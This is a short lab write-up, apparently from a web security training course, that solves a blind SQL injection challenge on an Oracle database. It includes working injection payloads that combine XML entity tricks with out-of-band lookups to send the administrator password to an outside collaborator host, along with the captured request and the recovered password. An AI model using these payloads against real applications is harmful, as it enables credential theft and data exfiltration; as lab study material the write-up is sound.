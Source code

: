 # Lab: Blind SQL injection with out-of-band data exfiltration

My burp collaborator subdomain: `lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net`

Gameplan:
* Perform a dns lookup against my subdomain to confirm that app is vulnerable
* Find out how to exfiltrate data through DNS

### Find out database server used

Oracle:

`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--`

Result: Success, DNS lookup was performed against my subdomain


### We know that this site uses Oracle db... find out how to exfil data

Payload with exfil:

`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--`

^^^ Above will inject query info into the url as such: `<password>.lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net`


Executed the above payload, this is the request sent to collaborator:

`
GET / HTTP/1.0
Host: uvzfsibrjxnjzk1irswl.lyn9rdpqvjp92kzn7ixitap9e0kq8f.burpcollaborator.net
Content-Type: text/plain; charset=utf-8
`

So the password for the administrator user is: `uvzfsibrjxnjzk1irswl`